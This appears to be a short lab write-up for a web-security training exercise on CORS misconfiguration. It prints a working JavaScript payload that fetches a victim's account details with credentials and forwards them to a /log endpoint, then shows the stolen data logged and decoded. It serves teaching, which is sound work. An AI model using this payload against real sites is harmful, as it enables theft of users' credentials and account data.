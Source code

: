 1. ###The following script is delivered to the victim:

	```
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
		req.withCredentials = true;
		req.send();

		function reqListener() {
		   location='/log?key='+this.responseText;
		};
	</script>
	```
	**_The script does the following:_**   
		 - Create an XMLHttpRequest instance.  
		 - Set the event handler that will be called when the response is received.  
		 - opening a GET request to the URL to retrieve account details  
		 - Sending cookies and HTTP authentication information in the request  
		 - Sending the request  
		 - Event handler function called when a response is received from the server  
		 - forwarding the current page to a log file with the received response text as parameter  

2. ###After supposedly executing the script on victims machine his credentials get logged:   

	![grafik](https://user-images.githubusercontent.com/62068604/235905598-e0c9da27-2a71-47e4-9d20-2c2bb64555c8.png)

3. ###Decoding victim's credentials via Burp Decoder:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)

